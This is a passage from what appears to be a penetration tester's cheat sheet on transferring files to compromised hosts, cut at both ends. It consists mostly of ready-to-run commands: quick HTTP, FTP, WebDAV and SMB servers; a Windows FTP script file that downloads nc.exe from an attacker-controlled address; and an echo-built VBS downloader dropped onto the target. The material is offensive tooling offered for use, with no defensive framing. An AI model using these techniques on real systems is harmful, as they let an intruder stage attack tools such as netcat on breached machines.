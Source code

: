 ```php
    move_uploaded_file($_FILES['file']['tmp_name'], $upfile);
    ?>
```
 * webserver with python3: `python -m http.server <PORT>`
 * FTP server with python (external package): `python -m pyftpdlib`
 * simple DAV server with nginx, use config:
```nginx
    server {
        listen 8421 default_server;
        location / {
            root /dev/shm;
                dav_methods PUT;
        }
    }
```
 * Spin up FTP server (pure-ftpd):
```bash
    groupadd ftpusers
    useradd -g ftpusers -d /dev/null -s /etc ftpuser
    pure-pw useradd ftp -u ftpuser -d /var/ftp
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /var/ftp
    chown ftpuser:ftpusers /var/ftp
    systemctl restart pure-ftpd
```
 * Connect from windows using FTP script file. The main caveat is the lack of space character after user and password:
```text
echo open &lt;SRVADDR&gt; > ftp.txt
echo ftpuser>> ftp.txt
echo ftppass>> ftp.txt
echo bin >> ftp.txt
echo get nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
 * There's a useful impacket script to run simple SMB server: `python smbserver.py sharename /foo/bar/baz.exe`
 * Handy batch script to drop VBS scenario that may download files from web server. Invoke as `cscript wget.vbs <URI> <OUTFILE>`:
```batch
    echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
    echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
    echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
    echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
    echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
    echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
    echo  Err.Clear >> wget.vbs 
    echo  Set http = Nothing >> wget.vbs 
    echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
    echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
    echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
    echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
    echo  http.Open "GET", strURL, False >> wget.vbs 
    echo  http.Send >> wget.vbs 
    echo  varByteArray = http.ResponseBody >> wget.vbs 
    echo  Set http = Nothing >> wget.vbs 
    echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
    echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
    echo  strData = "" >> wget.vbs 
    echo  strBuffer = "" >> wget.vbs 
```